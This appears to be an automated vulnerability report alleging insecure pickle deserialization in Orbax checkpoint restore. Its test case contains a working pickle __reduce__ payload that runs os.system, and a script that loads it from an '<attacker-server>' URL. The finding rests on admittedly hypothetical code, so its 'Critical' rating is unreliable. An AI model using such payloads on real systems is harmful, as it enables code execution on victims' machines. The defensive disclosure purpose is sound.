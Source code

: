 ## Vulnerability: Insecure Deserialization in Orbax Checkpoint Loading

### Description:
A malicious actor can craft a checkpoint file that exploits Python's pickle or similar deserialization mechanisms potentially used by Orbax. This malicious checkpoint file can be hosted on a publicly accessible location or delivered to a user through social engineering or compromised download links. When a user attempts to restore a model using Orbax's checkpoint loading function (e.g., `orbax.checkpoint.CheckpointManager.restore()`) and provides the path to this malicious checkpoint file, Orbax might deserialize the harmful data without sufficient security measures. If the malicious checkpoint is designed to execute arbitrary code during deserialization (e.g., through pickle exploits or other insecure deserialization practices), it will lead to arbitrary code execution on the user's machine upon loading the checkpoint. While the code analysis points to the use of `msgpack` which is generally safer than `pickle`, vulnerabilities could still arise from improper usage, custom extensions, or vulnerabilities within the `msgpack` library itself, or if pickle is used in other parts of the checkpoint loading process, such as in `mesh_consistency.py` for process metadata.

### Impact:
Arbitrary code execution on the user's machine. This can result in full system compromise, including unauthorized access to sensitive data, data exfiltration, installation of malware, or further attacks on internal networks.

### Vulnerability Rank:
Critical

### Currently Implemented Mitigations:
Based on the provided code snippets and descriptions, there are no explicitly visible mitigations against insecure deserialization within Orbax checkpoint loading mechanisms. While `msgpack` is used for some serialization, the security depends on its specific implementation and context, especially regarding handling of untrusted data and potential custom extensions. There's a potential risk if `pickle` or other insecure deserialization methods are used, particularly in areas like `ProcessMetadataCheckpointHandler` and `mesh_consistency.py` for handling process metadata, as suggested by the initial vulnerability report.

### Missing Mitigations:
- Implement robust input validation and sanitization of checkpoint files before any deserialization occurs. This should include checks for file integrity, expected data formats, and potentially scanning for known malicious patterns.
- Completely avoid insecure deserialization methods like `pickle` when handling untrusted checkpoint files. If pickle is unavoidable in certain internal processes, it must be strictly isolated and never used for external, user-provided data.
- Adopt secure serialization methods such as JSON or Protobuf for metadata and checkpoint data where possible. These formats are less prone to arbitrary code execution vulnerabilities.
- Implement Content Security Policy (CSP) principles or similar security mechanisms to restrict the capabilities of loaded checkpoints, limiting potential damage from compromised files. While CSP is web-centric, the principle of least privilege and sandboxing applies to checkpoint loading as well.
- Regularly audit the checkpoint loading and saving processes, especially deserialization routines, for potential security vulnerabilities and ensure that all dependencies are up-to-date to patch known vulnerabilities in libraries like `msgpack`.

### Preconditions:
- A user attempts to restore a model from a checkpoint file using Orbax.
- The checkpoint file is maliciously crafted by an attacker to exploit deserialization vulnerabilities.
- The user is either tricked into using a malicious checkpoint file or unknowingly downloads it from an untrusted source.
- Orbax's checkpoint loading mechanism is vulnerable to insecure deserialization, either through direct use of `pickle` or insecure usage of `msgpack` or other deserialization libraries, particularly in handling process metadata or custom extensions.

### Source Code Analysis:
- `/code/checkpoint/orbax/checkpoint/_src/handlers/pytree_checkpoint_handler.py`: This file is central to checkpoint loading, particularly the `restore` function, and requires careful examination to identify deserialization methods.
- `/code/checkpoint/orbax/checkpoint/_src/serialization/msgpack_utils.py`: Confirms the use of `msgpack` for serialization. While generally safer than `pickle`, vulnerabilities can still arise from improper use, custom extensions, or flaws in the `msgpack` library itself. Review is needed to ensure secure usage, especially when handling external checkpoint data.
- `/code/checkpoint/orbax/checkpoint/experimental/emergency/process_metadata_checkpoint_handler.py`: Implements `ProcessMetadataCheckpointHandler` for saving and restoring process metadata. The `restore` method calls `mesh_consistency.read_process_metadata(directory)`.
- `/code/checkpoint/orbax/checkpoint/experimental/emergency/mesh_consistency.py`: Contains `read_process_metadata` and `save_process_metadata` functions. While the provided snippets show the use of `json.loads` and `json.dumps` for some metadata files, the description notes that the implementation might not be fully provided. If other parts of `mesh_consistency.py` or functions called by `read_process_metadata` or `save_process_metadata` use `pickle` or other insecure deserialization methods, it introduces a vulnerability.

Hypothetical vulnerable code example (illustrative, not actual project code):
```python
# Example hypothetical vulnerable code in `orbax/checkpoint/_src/handlers/pytree_checkpoint_handler.py`
import pickle
import orbax.checkpoint._src.path as path

class PyTreeCheckpointHandler:
    ...
    def restore(self, directory: path.Path, args: RestoreArgs):
        ...
        with open(directory / 'checkpoint', 'rb') as f:
            # Vulnerable to pickle exploits if 'f' is a malicious file
            restored_pytree = pickle.load(f)
        ...
```

### Security Test Case:
1. **Craft a Malicious Checkpoint:** Use Python's `pickle` library to create a malicious checkpoint file (e.g., `malicious_checkpoint`) that executes arbitrary code upon loading. This file simulates a compromised checkpoint.
   ```python
   import pickle
   import os

   class RunCode(object):
       def __reduce__(self):
           return (os.system, ('touch /tmp/pwned',))

   malicious_data = {
       'vulnerable_object': RunCode()
   }
   with open('/tmp/malicious_checkpoint', 'wb') as f:
       pickle.dump(malicious_data, f)
   ```
2. **Host the Malicious Checkpoint:** Make the `malicious_checkpoint` file accessible via a publicly accessible URL (e.g., using a simple HTTP server or cloud storage).
3. **Attempt to Restore from Malicious Checkpoint:** In a safe testing environment with Orbax installed, create a Python script to restore from the hosted malicious checkpoint URL.
   ```python
   import orbax.checkpoint
   import epath
   import os

   checkpoint_path = "http://<attacker-server>/malicious_checkpoint" # Replace with your attacker server URL
   try:
       # Attempt to restore from the malicious checkpoint
       checkpoint_manager = orbax.checkpoint.CheckpointManager(epath.Path("/tmp/test_restore"))
       restored_state = checkpoint_manager.restore(0, directory=checkpoint_path)
   except Exception as e:
       print(f"Attempted restore, exception: {e}")

   # Check for exploit success (e.g., check if '/tmp/pwned' file exists)
   if os.path.exists('/tmp/pwned'):
       print("Vulnerability Exploited: /tmp/pwned file created!")
   else:
       print("Vulnerability NOT Exploited.")
   ```
4. **Run the Test Script:** Execute the Python script in the testing environment.
5. **Verify Code Execution:** Check if the file `/tmp/pwned` was created. If it exists, arbitrary code execution has occurred, confirming the vulnerability. If the file is not created and the script ideally throws a security-related exception or handles the malicious file safely, it indicates mitigation is in place.